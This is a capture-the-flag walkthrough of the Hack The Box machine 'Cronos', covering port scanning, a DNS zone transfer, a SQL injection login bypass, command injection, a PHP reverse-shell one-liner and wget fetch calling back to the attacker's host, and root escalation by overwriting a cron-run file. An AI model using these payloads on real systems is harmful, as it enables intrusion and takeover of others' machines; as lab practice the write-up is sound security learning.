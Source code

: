 # HTB - Cronos

#### Ip: 10.10.10.13
#### Name: Cronos
#### Rating: Medium

----------------------------------------------------------------------

![Cronos.png](../assets/cronos_assets/Cronos.png)

### Enumeration

As always, lets begin enumerating this box with an Nmap scan covering all TCP ports. When doing CTFs like this I like to add the `--min-rate 10000` flag to speed things along:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.13 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:32 CDT
Nmap scan report for 10.10.10.13
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
Ok interesting. We have the classic ports 22 and 80 combo so frequently found on Linux CTFs, but also we see DNS port 53 open. While not unheard of by any means, it's also not very common either, and will likely be what I first focus on.

Let's further enumeratie the open ports using the `-sC` and `-sV` flags to use default scripts and enumerate versions, along with the `-T4` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ sudo nmap -sC -sV -T4 10.10.10.13 -p 22,53,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 12:36 CDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.29 seconds
```

This didn't find anything too juicy for us. SSH is a pretty safe and well built protocol, so not many vulnerabilities there. It looks like we've got Apache 2.4.18 on port 80/http landing on Apache's default "It Works" page. 

Let's take a quick look at DNS before turning our attention to http.

Going out on a limb based on past experience with HTB machines, their typical hostname format is box-name.htb. There are exceptions to this (sometimes AD boxes will just be HTB.local, etc), but first thing I'm going to try is a zone transfer using cronos.htb and the ip:

![dns.png](../assets/cronos_assets/dns.png)

Nice! Were successfully able to do a zone transfer and get a few more targets to investigate. 

After adding all of these to my `/etc/hosts file`, my immediate attention goes to admin.cronos.htb. Let's check that out.

![admin_login.png](../assets/cronos_assets/admin_login.png)

I'm met with just a simple login page. Checking out the source code for this page using `ctrl + u` doesn't yield anything juicy, and I'm unable to login with the standard weak credentials like admin:admin, admin:password, admin:cronos, root:root, etc. 

Let's try throwing some SQL injections to bypass the login at it. It took a bit a playing around, but in the end one of the most classic login bypasses worked for me: `' or 1=1-- - ` logged me in where I found this interesting feature:

![net_tool.png](../assets/cronos_assets/net_tool.png)

Let's intercept a request using BurpSuite to look more closely at what's going on here. 

![burp.png](../assets/cronos_assets/burp.png)

Ok cool, so it looks like the request has a command portion as well as a host. I know from the site that I can use both traceroute as well as ping as commands. I wonder if I can issue other common linux commands here? 

Sending the request to Repeater in Burp, I remove the default 8.8.8.8 address and see if I can get execution of other commands:

```text
command=id&host=
```

Nice! Looking at the response, we have execution here:

![execution.png](../assets/cronos_assets/execution.png)

Let's see if we can try something more malicious now.

### Exploitation

Going to www.revshells.com I grab a php reverse shell one-liner to see if I can catch a reverse shell exploiting this execution.

I grab `php -r '$sock=fsockopen("10.10.14.20",443);exec("sh <&3 >&3 2>&3");'` and URL encode it (You can conveniently do this on revshells.com or simply paste it into Burp, highlight it and enter `ctrl + u` to URL encode)

After setting up a listener and sending the request, I get a callback to my machine as www-data.

![callback.png](../assets/cronos_assets/callback.png)

I can quickly stabilize this shell by issuing:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
And then grab the user.txt flag:

![user_flag.png](../assets/cronos_assets/user_flag.png)

### Privilege Escalation

Quick aside, HTB is such a great site and has been invaluable to my own learning and practice, but one small beef I have with them (especially older boxes like this one) is the clues they leave when naming the boxes. I believe they may be moving away from this, but with a name like Cronos, my first thoughts when it comes to privesc is checking out cron-jobs on the machine. It's clever and all, but I would prefer a more black-box, not knowing what I'm walking into type experience.

Ok rant over, back to work. Lets see if we can see any interesting cron-jobs:

Interesting:

![crontab.png](../assets/cronos_assets/crontab.png)

Looks like this file is being run every minute with root permissions. Let's do a little more investigation here, and see if we can write to this file:

```text
www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
```

Sweet, looks like all we need to do here is inject a php reverse shell into this file, set up a listener and wait for our root shell to arrive. Let's do it.

First I need to transfer from my machine to Cronos a copy of php-reverse-shell.php, after updating the script to reflect my Ip and port I'll be listening on:

![php_shell.png](../assets/cronos_assets/php-shell.png)

Then I set up a Python http.server with `python -m http.server 80` and grab the file using wget:

```text
www-data@cronos:/var/www/laravel$ wget http://10.10.14.20/php-reverse-shell.php
<ravel$ wget http://10.10.14.20/php-reverse-shell.php                        
--2023-04-27 21:55:28--  http://10.10.14.20/php-reverse-shell.php
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5521 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.39K  --.-KB/s    in 0.001s  

2023-04-27 21:55:28 (6.26 MB/s) - 'php-reverse-shell.php' saved [5521/5521]
```

From here all I need to do is set up my listener and overwrite the artisan file with my shell:

`www-data@cronos:/var/www/laravel$ cp php-reverse-shell.php artisan`

After waiting just a few seconds (may take up to one minute) I got a call back to my listener as root:

```text
┌──(ryan㉿kali)-[~/HTB/Cronos]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 45270
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:56:01 up  6:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# whoami
root
# hostname
cronos
```
All that's left to do is grab the root.txt flag:

![root_flag.png](../assets/cronos_assets/root_flag.png)

And that's all she wrote! This was a fun box that reinforced some classic concepts. I enjoyed playing with DNS, the login bypass via SQLI, as well as exploiting the functionality of admin.cronos.htb to get RCE on the box. This is an older box that in my opinion should have been rated 'Easy', but I had a fun time with it nonetheless.

Thanks for following along!

-Ryan

----------------------------------------------------------------------------------------------------------------

